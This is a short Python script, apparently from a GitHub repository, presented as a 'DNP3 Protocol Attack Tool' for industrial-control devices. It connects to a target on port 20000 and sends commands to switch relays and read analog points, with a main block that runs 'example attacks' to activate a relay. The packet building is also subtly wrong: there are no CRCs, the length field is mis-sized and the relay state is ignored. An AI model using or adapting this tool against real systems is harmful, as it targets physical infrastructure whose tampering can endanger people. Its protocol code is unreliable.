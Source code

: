 ### DNP3Attacker.py
```python
#!/usr/bin/env python3
"""
DNP3 Protocol Attack Tool
Targets: DNP3-enabled devices
Protocol: DNP3 over TCP
"""

import socket
import struct
import time

class DNP3Attacker:
    def __init__(self, target_ip, port=20000):
        self.target_ip = target_ip
        self.port = port
        self.socket = None
        
    def connect(self):
        """Establish DNP3 connection"""
        try:
            self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            self.socket.connect((self.target_ip, self.port))
            return True
        except Exception as e:
            print(f"DNP3 connection failed: {e}")
            return False
            
    def send_dnp3_command(self, command_data):
        """Send DNP3 command"""
        try:
            # DNP3 header construction
            header = struct.pack('>BBHH', 0x05, 0x64, len(command_data), 0x0001)
            packet = header + command_data
            self.socket.send(packet)
            return True
        except Exception as e:
            print(f"Command failed: {e}")
            return False
            
    def control_relay(self, relay_id, state):
        """Control relay output"""
        # DNP3 control relay command
        command = struct.pack('>BBH', 0x0C, 0x01, relay_id)
        return self.send_dnp3_command(command)
        
    def read_analog(self, point_id):
        """Read analog input"""
        # DNP3 read analog command
        command = struct.pack('>BBH', 0x01, 0x01, point_id)
        return self.send_dnp3_command(command)

if __name__ == "__main__":
    attacker = DNP3Attacker("192.168.100.10")
    if attacker.connect():
        print("DNP3 connection established")
        # Example attacks
        attacker.control_relay(1, 1)  # Activate relay 1
        attacker.read_analog(1)       # Read analog input 1
```
